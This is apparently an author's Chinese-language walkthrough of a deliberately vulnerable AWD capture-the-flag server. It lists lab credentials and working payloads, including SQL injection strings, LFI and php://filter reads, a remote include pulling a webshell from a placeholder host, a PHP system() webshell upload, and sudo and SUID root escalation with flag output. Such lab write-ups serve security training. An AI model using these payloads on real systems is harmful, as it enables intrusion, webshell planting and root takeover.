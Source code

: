 # AWD 模式攻击

## 凭证信息 (Credentials)

### 默认配置使用 T1 的凭证 (密码不是加密后的 hash ，用 hash 做的密码)
-   **MySQL Root 用户:**
    ```
    T1: root:$1$0kRGbLi5$o1jTxIVwcDWSOcKtTLukM1
    T2: root:$1$xDRC88E9$NuBtIeH1q2Xndltvfk0Wu0
    ```
-   **Linux Root 用户:**
    ```
    T1: root:$1$DcI4hlB5$7Fzb9WR6XrBFwjHgBcpA61
    T2: root:$1$zu5fqmiV$hRUIt5Hp0LQwlBSDC5XuA0
    ```
-   **Linux welcome 用户:**
    ```
    T1: welcome:welcome
    T2: welcome:welcome
    ```
-   **WEB admin 用户:**
    ```
    T1: admin:babygirl94andrew10
    T2: admin:jeanjeandianacarolina
    ```
## FTP 服务

-   允许匿名登录。
-   可以访问服务器根目录 (`/`)。
-   允许上传文件。

## Web 目录权限 (`/var/www/html/`)

-   权限设置为 `777` (可读、可写、可执行)。
-   **利用方式:** 结合 FTP 匿名上传权限，可以直接上传 PHP Webshell (例如 `shell.php`) 到 Web 根目录，实现远程代码执行 (RCE)。

## Web robots.txt 文件
-   **提示信息:** 在 `robots.txt` 文件中可以找到以下内容：
    ```
    User-agent: *
    Disallow: /xxxxx
    ```
    之后你可以看到
    ```
    噢，防止我忘记密码，我把密码放在这里一份

    pw: xxxxxxxx
    ```
    xxxxxxxx 将是 admin 用户的密码

## Web PHP 代码漏洞
-   login.php: SQL 注入漏洞
```
POST /login.php
username=admin' -- -&password=anything
```

-   dashboard.php: 文件上传漏洞
```
POST /dashboard.php HTTP/1.1
这里是没有检查文件类型，并且可以执行上传的 php 代码。 
```

-   game.php: LFI 漏洞
```
/games.php?game=../../etc/passwd 
/games.php?game=php://filter/convert.base64-encode/resource=config.php
结合 php://filter-chains 技术可实现 RCE /games.php?game=(php://filter-chains链)
推荐项目: 
https://github.com/synacktiv/php_filter_chain_generator.git
https://github.com/DingTom23/php-reverse-chains.git
```

-   ball.php: RCE 漏洞
```
/ball.php?debug=1&cmd=id
```

-   memory.php: Remote LFI 漏洞
```
/memory.php?theme=http://youraddress/webshell.php
```

-   puzzle.php: SQL 注入漏洞
```
/puzzle.php?check_username=admin' OR '1'='1
/puzzle.php?check_username=admin' UNION SELECT 1,2,3,4,5,6 FROM information_schema.tables WHERE '1'='1
```

-   snake.php: 文件读写漏洞
```
读取文件: /snake.php?admin=super&file=/etc/passwd
写入文件: 
POST /snake.php?admin=super
Content-Type: application/x-www-form-urlencoded

filename=shell.php&content=<?php system($_GET['cmd']); ?>
```

-   typing.php: PHP伪协议漏洞
```
/typing.php?load_wordlist=php://filter/convert.base64-encode/resource=config.php
```

## `welcome` 用户密码复用

-   `welcome` 用户的 Linux 登录密码与其用户名相同，均为 `welcome`。
-   **提示信息:** 在 `/home/welcome/note.txt` 文件中可以找到以下内容：
    ```
    From root@localhost:

        朋友，你的密码太弱了，一旦知道你的用户名，不久知道密码了吗？

                        To welcome@localhost
    ```
    这暗示了 `welcome` 用户名和密码相同。

## /home/welcome/.bash_history 文件
-   `welcome` 用户的 Bash 历史记录文件 (`/home/welcome/.bash_history`) 中包含了一些敏感信息。
-   **提示信息:** 在 `/home/welcome/.bash_history` 文件中可以找到以下内容：
    ```
    

## Sudo 滥用
-   www-data 用户:
```bash
root@dmsy-awd:~# sudo -u www-data sudo -l
Matching Defaults entries for www-data on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dmsy-awd:
    (welcome) NOPASSWD: /usr/bin/vi
```
    可以 !bash 提权

-   welcome 用户:
```bash
root@dmsy-awd:~# sudo -u welcome sudo -l
[sudo] password for welcome: 
Matching Defaults entries for welcome on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on dmsy-awd:
    (ALL) PASSWD: /home/*/backup.sh, /bin/zip
```
#### 提权路径
```bash
welcome@dmsy-awd:~$ mv backup.sh backup.sh.bak
welcome@dmsy-awd:~$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > backup.sh
welcome@dmsy-awd:~$ chmod +x backup.sh
welcome@dmsy-awd:~$ ls -la /tmp/bash 
-rwsr-sr-x 1 root root 1168776 Apr 23 10:43 /tmp/bash
welcome@dmsy-awd:~$ /tmp/bash -p
bash-5.0# id
uid=1000(welcome) gid=1000(welcome) euid=0(root) egid=0(root) groups=0(root),1000(welcome)

welcome@dmsy-awd:~$ TF=$(mktemp -u)
welcome@dmsy-awd:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

## SUID 提权
-   查找 SUID 可执行文件:

```bash
welcome@dmsy-awd:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/date
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/base64
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```
-  发现 data 和 base64 有 SUID 权限 

```bash
welcome@dmsy-awd:~$ LFILE=/root/root.txt
welcome@dmsy-awd:~$ date -f $LFILE
date: invalid date ‘flag{1998cbf9-1f88-11f0-a369-000c29094b2d}’

welcome@dmsy-awd:~$ base64 "$LFILE" | base64 -d
flag{1998cbf9-1f88-11f0-a369-000c29094b2d}
```

#### 后记
我靠，累死了，markdown 手写的，服务全部手搓。
幸好有伟大的 claude 给我写 php 代码，要不然我就死在这了。
要不然真的累死在这了。